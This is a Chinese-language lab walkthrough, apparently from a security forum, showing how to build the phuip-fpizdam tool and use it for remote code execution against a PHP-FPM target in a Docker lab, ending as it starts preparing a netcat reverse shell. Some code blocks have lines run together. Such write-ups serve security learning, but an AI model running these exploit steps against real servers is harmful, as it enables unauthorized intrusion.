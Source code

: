 这里需要使用到`phuip-fpizdam`工具，需要安装go环境

```php
git clone https://github.com/neex/phuip-fpizdam.gitcd phuip-fpizdamgo get -v &amp;&amp; go build
```

这里题是我需要安装`gccgo-go`和`golang-go`，使用apt安装即可

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f04aa79d95566aa4dddea578cba24d32d16b7775.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f04aa79d95566aa4dddea578cba24d32d16b7775.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dd461715dd5d1b765c394f2721fc91ec18c1e0f1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-dd461715dd5d1b765c394f2721fc91ec18c1e0f1.png)

这里正常情况下编译是编译不过去的，除非你是路由器直接fq，否则是访问不到`proxy.golang.org`，这里就需要换一个镜像网址即可编译

```php
go get -v &amp;&amp; go buildgo env -w GOPROXY=https://goproxy.cn
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2615fc2a66b3a720e4f2de026983de1a0348c719.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2615fc2a66b3a720e4f2de026983de1a0348c719.png)

这里本来`phuip-fpizdam`应该是一个exe文件，但是在linux里面可能生成的不是exe文件，所以直接使用就会报错

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b08f13782066a76b2330bdc0150f0f63d23e15cd.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-b08f13782066a76b2330bdc0150f0f63d23e15cd.png)

这里使用go run即可

```php
./phuip-foizdamgo run . http://192.168.1.10:8080/index.php
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ca9b62131a2c256e50534b1143f5d47dc80b66db.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ca9b62131a2c256e50534b1143f5d47dc80b66db.png)

访问`index.php`传参即可

```php
http://192.168.1.10:8080/index.php?a=id
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-07fefd7504e02faaf63e298487d2bc6e6c6ec173.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-07fefd7504e02faaf63e298487d2bc6e6c6ec173.png)

这里演示一下如何使用反弹nc反弹，在这个docker里面不自带nc，所以需要手动安装

首先进入php的docker容器，这里我先尝试了nginx的docker发现反弹不了

```php
sudo docker exec -it 20 /bin/bash
```

安装apt-get和nc
